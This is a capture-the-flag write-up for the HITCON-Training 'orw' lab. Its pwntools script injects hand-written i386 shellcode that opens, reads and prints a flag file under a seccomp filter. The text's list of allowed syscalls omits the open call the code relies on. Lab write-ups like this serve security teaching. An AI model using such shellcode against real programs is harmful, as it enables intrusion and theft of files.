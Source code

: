 # HITCON-Training lab2

## binary analysis

![](main.PNG)

![](orw_seccomp.PNG)

Look this [document](https://en.wikipedia.org/wiki/Seccomp) to learn about `seccomp`

`seccomp` is make me only use `exit()`, `sigreturn()`, `read()` and `write()`.

## solve

```python
from pwn import *

context.arch = "i386"
# context.log_level = "DEBUG"

p = process("./orw")

# read - 3
# write - 4
# open - 5

shellcode = asm("""

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f

sub esp, 0x50

mov eax, 0x5
mov ebx, esp
add ebx, 0x50

int 0x80


mov ebx, eax

mov eax, 0x3
mov ecx, esp
mov edx, 0x50
int 0x80

mov eax, 0x4
mov ebx, 1
mov ecx, esp
mov edx, 0x50
int 0x80


mov eax, 1
mov ebx, 0
int 0x80

add esp, 0x50
add esp, 0x10
""")


p.sendlineafter(":", shellcode)

p.interactive()

```